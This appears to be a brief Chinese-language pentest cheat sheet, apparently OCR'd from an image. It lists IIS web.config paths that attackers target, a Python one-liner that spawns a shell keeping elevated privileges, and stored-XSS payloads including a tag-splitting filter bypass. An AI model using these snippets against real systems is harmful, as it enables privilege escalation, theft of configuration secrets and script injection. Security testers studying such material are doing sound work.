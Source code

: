 ## iis配置


- C:\inetpub\wwwroot\web.config
- C：\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
- C：\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

## python提权
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```


# XSS
## 存储型xss
<script>alert('xss')</script>
<SCRIPT>alert('xss')</SCRIPT>
<sc<script>ript>alert('xss')</script>